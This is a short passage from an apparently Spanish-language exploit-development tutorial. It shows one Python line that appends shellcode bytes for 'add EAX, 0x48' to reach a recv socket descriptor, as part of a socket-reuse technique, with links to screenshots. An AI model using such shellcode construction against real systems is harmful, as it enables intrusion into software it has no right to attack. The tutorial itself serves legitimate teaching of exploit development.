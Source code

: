 ![paste](./images/100.jpeg)

Sumamos 0x48 para llegar a la dirección de nuestro descriptor recv:

```python
recv += b"\x83\xc0\x48"         #   add EAX, 0x48
```

(recuerda que esta direccion a la que apuntamos en el descriptor de socket recv)

![paste](./images/101.jpeg)
